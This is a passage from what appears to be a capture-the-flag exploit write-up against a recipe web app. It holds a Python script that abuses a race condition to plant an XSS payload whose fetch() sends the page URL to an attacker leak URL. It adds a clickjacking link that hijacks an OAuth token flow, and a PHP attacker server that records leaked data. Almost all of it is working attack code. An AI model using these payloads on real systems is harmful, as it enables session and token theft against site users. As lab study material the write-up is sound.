```python
        break

payload_ad = f"<script>fetch('{LEAK_URL}' + encodeURIComponent(document.baseURI))</script>"

threads = []
for _ in range(20):
    t = Thread(target=buy_ad_race_condition,
               args=(author, recipeid_attack, payload_ad))
    threads.append(t)
    t.start()

    t = Thread(target=buy_ad_race_condition, args=(
        advertiser, recipeid_attack, payload_ad))
    threads.append(t)
    t.start()

for t in threads:
    t.join()

post_payload = f'''
<a href="{AUTH_HOST}/auth?redirect_uri=http%3A%2F%2Flocalhost%3A3001%2F{recipeid_attack}&response_type=token" style="background-color: red; width:300px; height:100px; position: absolute; right: 0px; top: 0px;"></a>
'''
recipeid_clickjacking_2 = new_post(author, post_payload)

print('\n\nExploit post id is: ' + recipeid_attack)
print('Make the bot visit the post ' +
      recipeid_clickjacking_2 + ' to leak the token')

```

#### attacker server:

```php
// index.php

<?php
if(!empty($_GET['leak'])){
    echo "setting leak...";
    file_put_contents('./leak.txt',$_GET['leak']);
}
?>
<br />
<a href="/start.php">start exploit</a>
<br /><br />

Last leaked data:
<?php
$LEAK = file_get_contents('./leak.txt');
echo $LEAK;
 ?>
```
